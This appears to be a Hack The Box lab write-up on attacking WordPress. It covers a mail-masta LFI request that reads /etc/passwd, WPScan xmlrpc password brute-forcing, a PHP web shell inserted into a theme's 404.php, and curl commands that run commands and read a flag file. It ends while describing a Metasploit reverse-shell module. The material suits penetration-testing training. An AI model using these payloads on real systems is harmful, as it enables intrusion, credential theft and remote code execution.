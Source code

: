# 🧊 Exploitation

## Vulnerable Plugin

Let's say we identified via a WPScan an outdated theme or plugin known to be vulnerable to SQL Injection as well as Local File Inclusion (LFI). \
We can verify if the LFI can be exploited based on this exploit-db [report](https://www.exploit-db.com/exploits/40290/). The exploit states that any unauthenticated user can read local files through the path: `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Or through cURL ->

```shell-session
curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

### User Bruteforce

The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`.

```shell-session
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```

_**Perform a bruteforce attack against the user "roger" on your target with the wordlist "rockyou.txt". Submit the user's password as the answer.**_

```
wpscan --password-attack xmlrpc -t 20 -U roger -P /home/htb-ac-1032889/Downloads/rockyou.txt --url http://94.237.53.113:47407
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## RCE via the Theme Editor

With administrative access to WordPress, we can modify the PHP source code to execute system commands. Once we're logged in, we click on `Appearance` on the side panel and select `Theme Editor`. This page will allow us to edit the PHP source code directly.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

And now we should be able to use a webshell using the `404.php?cmd=id`.

And we can check this with the following cURL command:&#x20;

```shell-session
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

_**Use the credentials for the admin user \[admin:sunshine1] and upload a webshell to your target. Once you have access to the target, obtain the contents of the "flag.txt" file in the home directory for the "wp-user" directory.**_

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

```
http://94.237.53.113:47407/wp-content/themes/twentyseventeen/404.php?cmd=id
```

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

```
curl -X GET "http://94.237.53.113:47407/wp-content/themes/twentyseventeen/404.php?cmd=cat%20/home/wp-user/flag.txt"
```

## Attacking with Metasploit

To obtain the reverse shell, we can use the `wp_admin_shell_upload` module. We can easily search for it inside `MSF`:

```shell-session
msf5 > search wp_admin
```

Once we set all of the options for this module and we hit run, it will launch a reverse shell
